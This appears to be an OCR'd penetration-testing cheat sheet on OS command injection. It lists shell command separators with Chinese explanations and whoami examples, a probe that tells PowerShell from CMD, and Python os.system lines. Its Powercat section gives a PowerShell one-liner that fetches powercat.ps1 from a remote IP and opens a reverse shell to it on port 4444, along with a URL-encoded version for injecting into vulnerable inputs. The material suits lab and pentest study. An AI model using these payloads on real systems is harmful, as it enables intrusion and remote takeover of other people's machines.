### OS Command Injection
###### Common ways
```
;：执行完前面的语句再执行后面的。例如： ping 127.0.0.1;whoami。
|：显示后面语句的执行结果。例如： ping 127.0.0.1|whoami。
||：或，如果前面命令成功执行，那么命令结束执行；当前面的语句执行出错时，执行后面的语句。例如： ping 127.0.0.1||whoami。
&：如果前面的语句为假则直接执行后面的语句，前面的语句可真可假 。例如： ping 127.0.0.1&whoami。
&&：如果前面的语句为假则直接出错，也不执行后面的，前面的语句只能为真。例如： ping 127.0.0.1&&whoami。
```
###### Powershell Or CMD
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
urlencode((dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell)
```
###### Powercat
>Powercat is a PowerShell implementation of Netcat included in Kali
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
urlencode(git;IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell)
```
### Python3
```
__import__('os').system('cmd')
os.system("whoami")
```
